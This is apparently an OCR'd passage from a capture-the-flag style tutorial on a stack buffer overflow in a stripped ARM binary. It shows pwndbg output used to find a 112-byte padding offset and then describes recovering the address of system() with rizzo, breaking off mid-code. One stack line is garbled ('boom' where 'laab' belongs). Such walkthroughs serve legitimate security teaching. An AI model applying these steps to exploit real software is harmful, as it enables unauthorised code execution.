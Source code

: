 ```assembly

────────────────────────────────────────────────── ─ [DISASM] ─────────────────────────────────────────────────── ──────
Invalid address 0x62616164




















────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────

00:0000│ sp  0xfffef098 ◂— 0x62616165 ('eaab')

01: 0004│ 0xfffef09c ◂- 0x62616166 (&#39;faab&#39;)
02: 0008│ 0xfffef0a0 ◂- 0x62616167 (&#39;gaab&#39;)
03: 000c│ 0xfffef0a4 ◂— 0x62616168 (&#39;haab&#39;)
04:0010│     0xfffef0a8 ◂— 0x62616169 ('iaab')

05: 0014│ 0xfffef0ac ◂- 0x6261616a (&#39;jaab&#39;)
06:0018│     0xfffef0b0 ◂— 0x6261616b ('kaab')

07: 001c│ 0xfffef0b4 ◂- 0x6261616c (&#39;boom&#39;)
Program received signal SIGSEGV

pwndbg> cyclic -l 0x62616164

112

```

So the padding length is 112
&gt; Or you can blast the stack overflow directly more violently


As for the address of system, because the binary is removed from the symbol table, we can first use `rizzo` to restore part of the symbol table (for the recovery symbol table, you can see the reference link first, and will introduce it later). Although rizzo does not work well on this binary, it is fortunate that there are just a few systems in the identified functions.
```C

char *__fastcall system(int a1)

{

  char *result; // r0



```